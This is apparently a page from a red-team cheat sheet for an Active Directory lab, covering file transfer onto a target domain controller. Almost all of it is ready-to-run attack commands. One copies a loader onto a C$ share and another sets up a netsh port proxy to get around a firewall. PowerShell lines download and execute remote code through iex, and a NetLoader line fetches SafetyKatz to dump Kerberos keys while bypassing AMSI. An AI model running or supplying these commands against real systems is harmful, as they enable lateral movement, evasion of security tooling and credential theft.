 # Transfer files

### Shares

```
echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y 
```

### HTTP Server

1. Port forward to avoid firewall using netsh on target machine

```
netsh interface portproxy add v4tov4 listenport=8080 listenaddress=127.0.0.1 connectport=80 connectaddress=172.16.100.x
```

2. Serve the files using [hfs ](https://www.rejetto.com/hfs/?f=dl)or http simple server

```bash
python3 -m http.server -port 80
```

3. Download the file on target machine

```powershell
# Download and store
(new-Object Net.WebClient).DownloadFile('http://127.0.0.1:8080/<File>', '<Dest Path>')

# Download and execute
iex ((New-Object Net.WebClient).DownloadString('http://127.0.0.1:8080/<File>'));

# NetLoader to execute and bypass amsi
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

